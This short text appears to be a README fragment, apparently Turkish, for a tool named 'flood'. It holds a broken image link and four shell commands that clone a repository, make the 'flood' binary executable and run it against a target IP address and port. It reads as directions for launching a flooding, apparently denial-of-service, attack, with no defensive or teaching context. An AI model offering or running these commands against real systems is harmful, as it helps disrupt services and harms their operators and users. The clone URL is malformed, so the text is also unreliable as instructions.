 git clone https://github.com/anonyrelax.git
cd flood
chmod +x flood
./flood -t ip_adresi -p port numarası
